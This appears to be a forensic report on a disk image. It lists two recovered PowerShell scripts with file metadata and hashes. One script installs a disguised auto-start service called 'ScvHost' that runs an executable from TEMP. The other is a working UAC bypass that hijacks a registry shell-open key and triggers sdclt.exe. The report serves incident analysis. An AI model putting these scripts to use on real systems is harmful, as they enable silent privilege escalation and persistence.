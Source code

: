 ```powershell
Accessed: 2019-08-17 05:49:01 UTC
Created: 2019-08-17 05:47:41 UTC
Changed: 2019-08-17 05:47:41 UTC
MD5: 345a02f5cfbc2760da886c49c2a47a70
SHA-256: 1c43b954af727b638eb385b477d4fbcdd021e212c8c77d5cc26e0063031e41f0
Hash Lookup Results: UNKNOWN
Internal ID: 14932


## `Service.ps1`
```powershell
$path = "$env:TEMP\scvhost.exe"

if (Test-Path -Path $path) {
    New-Service -Name "ScvHost" -BinaryPathName $path -DisplayName "ScvHost" -Description "Shared Service Host" -StartupType Automatic
    Start-Service -Name "ScvHost"
}
```
```text
### Metadata
Name: /img_disk.raw/vol_vol7/Users/Alan/AppData/Local/Temp/Service.ps1
Type: File System
MIME Type: text/plain
Size: 232
File Name Allocation: Allocated
Metadata Allocation: Allocated
Modified: 2019-08-17 05:48:07 UTC
Accessed: 2019-08-17 05:49:18 UTC
Created: 2019-08-17 05:48:07 UTC
Changed: 2019-08-17 05:48:07 UTC
MD5: df94b76332ad29f2a93c7c7a5a1c7fcd
SHA-256: 242f3af26875dc83622403c774e66c1072a83942fe31e41ce36a8c1bc63cbe3d
Hash Lookup Results: UNKNOWN
Internal ID: 14931
```

## `ElevateExecute.ps1`
```powershell
Param(
    [Parameter(Mandatory=$true,
    ValueFromPipeLine=$false)]
    [String[]]
    $ScriptPath
)

if (!(Test-Path -Path $ScriptPath)) {
    Write-Host "[*] File does not exist at $ScriptPath"
    return -1
}

$path = "HKCU:\Software\Classes\Folder\shell\open\command"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "(Default)" -PropertyType String -Value "PowerShell.exe -File $ScriptPath" -Force
New-ItemProperty -Path $path -Name "DelegateExecute" -Force

Start-Process -FilePath "$env:windir\system32\sdclt.exe"

Start-Sleep -Seconds 3
```